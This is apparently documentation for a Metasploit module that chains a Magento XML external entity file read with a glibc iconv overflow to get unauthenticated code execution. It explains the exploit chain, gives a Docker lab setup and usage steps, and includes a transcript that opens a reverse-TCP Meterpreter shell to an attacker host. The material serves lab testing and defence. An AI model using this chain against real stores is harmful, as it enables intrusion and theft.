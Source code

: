 ## Vulnerable Application
This combination of an Arbitrary File Read (CVE-2024-34102) and a Buffer Overflow in glibc (CVE-2024-2961)
allows for unauthenticated Remote Code Execution on the following versions of Magento and Adobe Commerce and
earlier if the PHP and glibc versions are also vulnerable:
- 2.4.7 and earlier
- 2.4.6-p5 and earlier
- 2.4.5-p7 and earlier
- 2.4.4-p8 and earlier

Vulnerable PHP versions:
- From PHP 7.0.0 (2015) to 8.3.7 (2024)

Vulnerable iconv() function in the GNU C Library:
- 2.39 and earlier

The exploit chain is quite interesting and for more detailed information check out the references. The tl;dr being:
CVE-2024-34102 is an XML External Entity vulnerability leveraging  PHP filters to read arbitrary files from the target
system. The exploit chain uses this to read /proc/self/maps, providing the address of PHP's heap and the libc's filename.
The libc is then downloaded, and the offsets of libc_malloc, libc_system and libc_realloc are extracted, and made use
of later in the chain.

With this information and expert knowledge of PHP's heap (chunks, free lists, buckets, bucket brigades), CVE-2024-2961
can be exploited. A long chain of PHP filters is constructed and sent in the same way the XXE is exploited, building a
payload in memory and using the buffer overflow to execute it, resulting in an unauthenticated RCE.

### Setup

The following docker-compose file can be used to test this module. There are a few things that need to be noted:
1. The docker-compose file sets magento server's name to `localhost` and in order to exploit the container `rhost` must
   be set to `localhost` (setting `rhost` to `127.0.0.1` or your local IP address will not work for this docker-compose file)
   and so given this configuration `msfconsole` must be running on the same host as the container.
2. The network settings on my macbook didn't allow me to exploit this locally so I was running the containers and
   `msfconsole` from an Ubuntu 22.04 VM.

Dockerfile
```
FROM docker.io/bitnami/magento:2.4.7-debian-12-r0

# Install curl
RUN apt update && apt install curl -y

```

docker-compose.yml
```
services:
  mariadb:
    image: docker.io/bitnami/mariadb:10.6
    environment:
      - ALLOW_EMPTY_PASSWORD=yes
      - MARIADB_USER=bn_magento
      - MARIADB_DATABASE=bitnami_magento
    volumes:
      - 'old_mariadb_data:/bitnami/mariadb'
  magento:
    build:
      context: .
      dockerfile: Dockerfile
    ports:
      - '80:8080'
      - '443:8443'
    environment:
      - MAGENTO_HOST=localhost
      - MAGENTO_DATABASE_HOST=mariadb
      - MAGENTO_DATABASE_PORT_NUMBER=3306
      - MAGENTO_DATABASE_USER=bn_magento
      - MAGENTO_DATABASE_NAME=bitnami_magento
      - ELASTICSEARCH_HOST=elasticsearch
      - ELASTICSEARCH_PORT_NUMBER=9200
      - ALLOW_EMPTY_PASSWORD=yes
    volumes:
      - 'old_magento_data:/bitnami/magento'
    depends_on:
      - mariadb
      - elasticsearch
  elasticsearch:
    image: docker.io/bitnami/elasticsearch:7
    volumes:
      - 'old_elasticsearch_data:/bitnami/elasticsearch/data'
volumes:
  old_mariadb_data:
    driver: local
  old_magento_data:
    driver: local
  old_elasticsearch_data:
    driver: local
```

## Options

### DOWNLOAD_FILE_TIMEOUT
This specifies how long the module should wait to receive a file that was requested by the `download_file` method which
exploits the Arbitrary File Read vulnerability CVE-2024-34102.

## Verification Steps

1. Start msfconsole
1. Do: `use linux/http/magento_xxe_to_glibc_buf_overflow`
1. Set the `RHOST`, `SRVHOST` and `LHOST` options
1. Run the module
1. Receive a Meterpreter sessions as the `daemon` user.

## Scenarios
### Magento/2.4 (Community) running PHP 8.2.17, GLIBC 2.36-9+deb12u4
```
msf > use magento_xxe_to_glibc_buf_overflow

Matching Modules
================

   #  Name                                                  Disclosure Date  Rank       Check  Description
   -  ----                                                  ---------------  ----       -----  -----------
   0  exploit/linux/http/magento_xxe_to_glibc_buf_overflow  2024-07-26       excellent  No     CosmicSting: Magento Arbitrary File Read (CVE-2024-34102) + PHP Buffer Overflow in the iconv() function of glibc (CVE-2024-2961)


Interact with a module by name or index. For example info 0, use 0 or use exploit/linux/http/magento_xxe_to_glibc_buf_overflow

[*] Using exploit/linux/http/magento_xxe_to_glibc_buf_overflow
[*] No payload configured, defaulting to cmd/linux/http/x64/meterpreter/reverse_tcp
msf exploit(linux/http/magento_xxe_to_glibc_buf_overflow) > set srvhost 172.16.199.130
srvhost => 172.16.199.130
msf exploit(linux/http/magento_xxe_to_glibc_buf_overflow) > set fetch_srvhost 172.16.199.130
fetch_srvhost => 172.16.199.130
msf exploit(linux/http/magento_xxe_to_glibc_buf_overflow) > set rhost localhost
rhost => localhost
msf exploit(linux/http/magento_xxe_to_glibc_buf_overflow) > run
[*] Exploit running as background job 57.

msf exploit(linux/http/magento_xxe_to_glibc_buf_overflow) > [*] Started reverse TCP handler on 172.16.199.130:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Using URL: http://172.16.199.130:8080/
[*] Server started
[+] Exploit precondition 1/3 met: Detected Magento Community edition version 2.4 which is vulnerable.
[+] Exploit precondition 2/3 met: PHP appears to be exploitable.
[+] Exploit precondition 3/3 met: glibc is version: 2.36
[+] The target appears to be vulnerable.
[*] Attempting to parse libc to extract necessary symbols and addresses
[*] Attempting to build an exploit PHP filter path with the information extracted from libc and /proc/self/maps
[*] Sending payload...
[*] Sending stage (3045380 bytes) to 192.168.80.4
[*] Meterpreter session 40 opened (172.16.199.130:4444 -> 192.168.80.4:60416) at 2024-10-10 10:56:06 -0700
Interrupt: use the 'exit' command to quit
[*] Server stopped.

msf exploit(linux/http/magento_xxe_to_glibc_buf_overflow) > sessions -i -1
[*] Starting interaction with 6...

meterpreter > getuid
Server username: daemon
meterpreter > sysinfo
Computer     : 172.25.0.4
OS           : Debian 12.5 (Linux 6.8.0-45-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > 
```

